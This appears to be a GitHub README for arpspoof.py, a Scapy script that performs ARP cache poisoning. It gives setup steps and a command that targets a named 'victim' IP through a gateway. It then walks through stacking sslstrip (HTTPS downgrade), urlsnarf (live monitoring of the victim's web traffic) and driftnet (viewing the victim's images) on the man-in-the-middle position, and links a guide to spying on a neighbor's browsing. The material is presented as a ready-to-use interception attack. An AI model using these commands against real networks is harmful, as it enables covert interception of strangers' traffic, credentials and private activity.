 # arpspoof.py

This script uses Scapy to perform a simple Arp Cache Poisoning attack.

## Setup

First install system dependencies:

	# Fedora 22/23
	sudo dnf install python python-devel python-pip

	# Fedora 21/20/19/18 and CentosOS/REHL 7.1
	sudo yum install python python-devel python-pip

	# Ubuntu/Debian/Backtrack/Kali
	sudo apt-get install python python-dev python-pip

Then install Scapy:

	sudo pip install scapy

Here are some other cool tools that you can use once you have run the script
and created a MITM:

__sslstrip__

https://github.com/moxie0/sslstrip

__driftnet__

http://null-byte.wonderhowto.com/how-to/hack-like-pro-use-driftnet-see-what-kind-images-your-neighbor-looks-online-0154253/

__dsniff__

http://www.monkey.org/~dugsong/dsniff/

## Usage

To perform an arp cache poisoning attack against victim with ip address 192.168.2.75 with
gateway 192.168.2.1 (with interface wlan0):

	python arpspoof.py -i wlan0 -g 192.168.2.1 -t 192.168.2.75

Once you have a MITM, you can downgrade HTTPS traffic to HTTP by running sslstrip in another terminal:

	sslstrip -l 10000

To monitor the victim's web traffic in real time, use urlsnarf (part of dsniff) in another
temrinal:

	urlsnarf -i wlan0

To view all images currently being viewed by the victim, use driftnet in another terminal:

	driftnet

Stop attack by hitting ctrl+c in your arpspoof.py terminal then closing out of all other tools.
